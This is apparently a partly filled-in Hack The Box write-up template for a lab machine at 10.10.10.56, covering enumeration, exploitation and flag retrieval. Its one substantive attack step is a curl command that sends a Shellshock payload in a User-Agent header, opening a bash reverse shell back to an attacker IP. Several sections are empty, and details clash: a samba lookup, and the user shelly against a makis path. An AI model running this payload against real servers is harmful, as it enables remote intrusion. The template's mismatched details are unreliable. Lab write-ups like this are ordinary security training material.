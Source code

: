 ```yaml
---
title: "HTB - Box"
author: "Anubhavsingh Sawdagur"
date: "DATE_NOW"
subject: "Markdown"
subtitle: "10.10.10.56"
lang: "en-GB"
book: true
classoption: oneside
code-block-font-size: \scriptsize   
output: 
  pdf_document:
    fig_caption: false
---
```


# Box - 10.10.10.

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.
```

```bash

```

Searchsploit is used to search for a known exploit the samba version **3.0.20**

```bash

```

# Exploitation


### **Vulnerability Explanation:**


### Getting a reverse shell

The tools used here to generate quick  reverse shell is called [rsg or reverse shell generator](https://github.com/mthbernardes/rsg)

```bash
# generates payload and as well as listens on the specified port
rsg 10.10.14.23 8888 bash 
# make the server connect back to the attacker using shellshock payload with bash reverse shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.23/8888 0>&1'" "http://10.10.10.56/cgi-bin/user.sh" 
```


### User.txt

```bash
find /home -type f
```

**User.txt** can be found in the home directory of **shelly**.

```bash
cat /home/makis/user.txt
```

> user.txt flag: ``

## Privilege Escalation to Root

### Root.txt

### **Vulnerability Explanation:**

the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```

> root.txt flag: ``

